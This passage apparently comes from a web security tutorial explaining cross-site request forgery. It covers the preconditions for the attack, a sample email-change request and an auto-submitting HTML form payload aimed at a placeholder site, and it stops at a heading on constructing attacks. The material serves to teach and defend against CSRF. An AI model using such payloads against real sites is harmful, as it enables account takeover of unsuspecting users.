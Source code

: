 ## How CSRF Works

For a CSRF attack to occur, three conditions must be met:

1. **A Relevant Action**: An action within the application that the attacker wants to induce (e.g., changing email, password, permissions).

2. **Cookie-Based Session Handling**: The application relies solely on session cookies to authenticate requests.

3. **No Unpredictable Request Parameters**: The action's requests do not contain parameters that are hard to predict or guess by the attacker.

### Example Scenario

**Target Action: Changing Email Address**

**Legitimate Request:**
```plaintext
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

**Conditions Met:**
- **Action Interest**: Changing the email can lead to account takeover.
- **Session Handling**: Relies on session cookies.
- **Predictable Parameters**: Attacker can guess the `email` parameter's structure.

**Attack Payload:**
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Attack Flow:**
1. Victim visits the malicious page.
2. The form auto-submits, sending the request with the victim's session cookie.
3. The server processes the request, changing the victim's email.

---

## Constructing a CSRF Attack
